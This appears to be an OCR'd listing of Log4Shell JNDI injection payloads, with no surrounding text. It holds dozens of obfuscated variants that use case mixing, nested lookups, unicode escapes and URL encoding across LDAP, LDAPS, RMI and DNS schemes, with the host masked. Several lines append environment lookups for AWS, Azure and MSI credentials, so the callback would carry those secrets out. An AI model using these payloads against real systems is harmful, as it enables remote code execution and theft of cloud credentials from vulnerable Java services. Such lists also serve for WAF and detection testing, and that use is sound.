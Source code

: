 ${j${${:-l}${:-O}${:-w}${:-E}${:-r}:N}di:lDAp://****/z}
${j${${:-l}${:-o}${:-w}${:-E}${:-r}:N}di:LDAPS://****/Z}
${j${${:-l}${:-o}${:-w}${:-e}${:-R}:n}dI:RMI://****/z}
${J${${:-L}${:-O}${:-w}${:-e}${:-R}:n}Di:dNs://****/Z}
${${dATE:'j'}${datE:'N'}${datE:'D'}${datE:'i'}:${datE:'L'}${dATE:'d'}${dATE:'A'}${Date:'p'}${dAte:'s'}://****/z}
${${DATE:'j'}${datE:'n'}${dAtE:'D'}${daTe:'I'}:${DATE:'r'}${DAtE:'m'}${dATE:'i'}://****/Z}
${${DATe:'j'}${Date:'N'}${Date:'d'}${date:'i'}:${datE:'d'}${dATe:'N'}${dAte:'s'}://****/z}
${${whAT:EvER:-J}${SOme:THing:-N}${oThEr:ThinG:-d}${and:LaSt:-I}:lDaps://****/Z}
${${wHaT:EVER:-j}${SOme:tHINg:-N}${oThEr:tHIng:-D}${anD:lAsT:-i}:rMI://****/Z}
${${wHAt:Ever:-j}${sOmE:tHIng:-n}${otHEr:tHINg:-d}${aND:LAST:-I}:DnS://****/z}
${\u006a\u006E\U0064\U0069:LdaP://****/z}
${\u006a\u006E\U0064\U0069:LDaPS://****/Z}
${\U006a\u006E\U0064\U0069:Rmi://****/Z}
${\U006a\U006e\U0064\U0069:dNs://****/Z}
${jndI:LDap://127.0.0.1#****/z}
${Jndi:LdApS://127.0.0.1#****/Z}
${JndI:RMI://127.0.0.1#****/Z}
${jnDI:dnS://127.0.0.1#****/Z}
%24%7bjndI:lDAp://****/Z%7d
%24%7BJnDI:ldaps://****%7D
%24%7BjNDI:RMi://****%7d
%24%7BjNDI:Dns://****%7d
%24%7b%24%7bENV:ENV_NaME:-J%7DNDI%24%7bEnv:enV_namE:-:%7D%24%7beNv:enV_NAME:-l%7DDap%24%7benV:EnV_Name:-:%7d//****/z%7D
%24%7B%24%7BeNV:Env_nAmE:-j%7DNDi%24%7beNV:eNV_name:-:%7d%24%7bENV:eNV_NAmE:-L%7Ddaps%24%7BeNV:eNV_nAME:-:%7d//****/z%7D
%24%7B%24%7bEnV:env_name:-j%7dNdI%24%7BenV:eNv_NAme:-:%7d%24%7benV:enV_name:-R%7dmI%24%7bENv:eNV_naME:-:%7D//****/z%7D
%24%7B%24%7beNv:env_NaMe:-J%7dndI%24%7bENV:eNv_Name:-:%7D%24%7BeNV:ENV_naME:-d%7dNs%24%7BeNV:eNV_name:-:%7d//****/Z%7D
%24%7BJnDi:ldAP://****/Z?LEaK=%24%7bEnV:Aws_ACceSS_KEy_ID:-NO_EXiSts%7D%7D
%24%7bJNdI:ldAp://****/Z?LeaK=%24%7BENv:aWS_secreT_acCESs_Key:-nO_eXisTS%7d%7D
%24%7bJNDI:lDaP://****/z?LeAK=%24%7BeNV:aMAzOn_AWs_ACcess_Key_Id:-nO_exIsTs%7d%7D
%24%7bjndI:LdAp://****/Z?LeaK=%24%7bEnV:AmAzON_awS_sECrET_AcceSS_KEY:-NO_exiSTS%7d%7d
%24%7BJnDI:ldAP://****/Z?leaK=%24%7bEnv:AZuRe_clieNT_ID:-No_eXIsts%7d%7D
%24%7Bjndi:LdAP://****/Z?LeAK=%24%7bEnV:aZURE_cLIEnt_sEcrEt:-no_ExISTS%7D%7D
%24%7BJndI:lDap://****/Z?LeAK=%24%7Benv:azURE_UseRname:-No_EXISTs%7d%7D
%24%7BJndi:lDap://****/Z?lEAk=%24%7benv:AzURe_PASsword:-no_EXIsts%7d%7D
%24%7BJnDi:LdAp://****/z?LEAK=%24%7Benv:mSi_ENDPOiNt:-nO_eXisTS%7d%7d
%24%7BjNdi:LDAP://****/Z?leaK=%24%7beNv:MSI_secret:-NO_exIsTs%7d%7D
%24%7B%24%7BLOweR:j%7dNdI:%24%7BLOWer:L%7d%24%7BlOWEr:d%7Da%24%7BLOWeR:P%7d://****/Z%7D
%24%7b%24%7BupPEr:J%7dndi:%24%7BUpPEr:l%7D%24%7buPpeR:d%7da%24%7BlOweR:P%7D://****/Z%7d
%24%7b%24%7B::-J%7D%24%7b::-N%7D%24%7b::-D%7d%24%7B::-i%7d:%24%7B::-L%7D%24%7b::-d%7D%24%7b::-A%7D%24%7b::-P%7d://****/z%7d
%24%7BJnd%24%7bSyS:sys_name:-i%7d:LDap:/****/Z%7D
%24%7bJ%24%7b%24%7B:-L%7D%24%7B:-O%7D%24%7B:-W%7d%24%7B:-e%7D%24%7b:-R%7D:n%7dDi:lDap://****/z%7d
%24%7b%24%7bdaTE:'j'%7D%24%7bDate:'n'%7D%24%7BdaTe:'D'%7d%24%7bdaTe:'i'%7d:%24%7bDATe:'L'%7d%24%7BdAtE:'D'%7d%24%7BdaTe:'a'%7d%24%7bdaTe:'P'%7D://****/Z%7D
%24%7B%24%7bWHAt:EVEr:-j%7d%24%7bsoMe:thING:-N%7D%24%7bOtHER:Thing:-d%7D%24%7bAnD:LaST:-I%7d:LdaP://****/z%7d
%24%7b%24%7BlOWer:j%7dndI:%24%7BLoWEr:l%7d%24%7BLoWer:d%7DA%24%7BlOWeR:P%7D%24%7Blower:S%7D://****/Z%7d
%24%7B%24%7buppeR:J%7dNdi:%24%7BuPPEr:l%7d%24%7BUPpER:D%7DA%24%7blOWEr:p%7D%24%7BUpPeR:s%7D://****/z%7d
%24%7b%24%7BlowER:J%7dNdI:%24%7blOwer:r%7d%24%7blOWER:m%7dA%24%7blowEr:i%7D://****/z%7d
%24%7b%24%7BUpPer:j%7dndi:%24%7buPpER:r%7d%24%7bUppEr:m%7Da%24%7BLOWER:I%7d://****/Z%7d
%24%7b%24%7bLoWer:J%7DNdi:%24%7BLOWeR:D%7D%24%7BlOWer:n%7da%24%7blOwer:S%7D://****/z%7D
%24%7b%24%7BuppER:J%7DNDI:%24%7buppeR:D%7d%24%7buPpeR:n%7DA%24%7bLOwer:S%7D://****/Z%7d
%24%7B%24%7B::-J%7d%24%7B::-n%7D%24%7b::-d%7D%24%7B::-i%7D:%24%7B::-L%7D%24%7b::-d%7D%24%7b::-A%7D%24%7b::-P%7d%24%7b::-s%7D://****/z%7d
%24%7B%24%7B::-j%7D%24%7B::-n%7d%24%7B::-D%7d%24%7B::-i%7d:%24%7b::-R%7d%24%7B::-m%7D%24%7B::-I%7D://****/Z%7D